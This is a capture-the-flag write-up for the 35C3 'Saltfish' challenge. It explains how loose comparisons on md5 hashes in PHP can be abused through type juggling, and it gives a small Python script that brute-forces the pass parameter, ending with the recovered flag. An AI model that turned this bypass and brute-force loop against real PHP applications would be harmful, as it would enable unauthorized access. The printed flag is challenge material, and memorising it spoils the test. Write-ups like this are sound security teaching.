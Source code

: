 ## Saltfish

> Solves: 105
> "I have been told that the best crackers in the world can do this under 60 minutes but unfortunately I need someone who can do this under 60 seconds." - Gabriel
> http://35.207.132.47:86

## Analysis

Page displays its source code:

```php
<?php
  require_once('flag.php');
  if ($_ = @$_GET['pass']) {
    $ua = $_SERVER['HTTP_USER_AGENT'];
    if (md5($_) + $_[0] == md5($ua)) {
      if ($_[0] == md5($_[0] . $flag)[0]) {
        echo $flag;
      }
    }
  } else {
    highlight_file(__FILE__);
  }
```

Alright so this is quite weird code, it checks whether SUM of md5 of supplied password and first character of password is equal to the md5 of user agent.
If that is true it checks whether first character of password is equal to first character of md5 hash of concatenated first character and flag.

However what is important to note here is that all comparisons are (loose)[http://php.net/manual/en/types.comparisons.php].

## Solution


The way I solved this challenge included making my own PHP code and seeing what will it evaluate to.

First matter of interest is how will ```md5($_)+$_[0]``` be evaluated.

Experiment code:
```php
<?php

$a=md5("A");
echo $a;
echo $a+"3";
```
Output:
```
7fc56270e7a70fa81a5935b72eacbe29<br />
<b>Notice</b>:  A non well formed numeric value encountered in <b>[...][...]</b> on line <b>5</b><br />
10
```

It takes hash up to first non-digit and adds it with 3, if we added it with nondigit (e.g $a+"b") it would be like adding with 0.
Also if hash started with character rather than digit and we added it with non digit result would be 0.
In sum: "a"+"b"=0 "a"+"3"=3 "7"+"3"=10


Secondly evaluation needs to be equal to md5 of our user agent, loose comparison table linked earlier shows that 0 is equal to string in loose comparison so we should aim for evaluation to be equal to 0 (however this is not true if string starts with digit)

Finally in third check we find out possible characters for first letter of pass parameter ```md5($_[0] . $flag)[0]``` can only be 0-9 or a-f.

So to sum up conditions:
1) hash of pass plus it's first character need to evaluate to 0
2) Hash of user agent must not start with digit
3) First letter of pass must be 0-9 or a-f

I set user agent to "ASD" (to be honest I didn't think about second condition when I solved challenge, I just got lucky) which has hash not starting with digit.
Then I made simple python script:
```python
import requests
url="http://35.207.132.47:86/?pass="
a=0
first="b"
while 1:
	print requests.get(url+first+str(a),headers={"User-Agent":"ASD"}).text
	print a
	a+=1
```

I changed first variable till scrupt spat out the flag, it worked with "b0" as a pass parameter!

35c3_password_saltf1sh_30_seconds_max

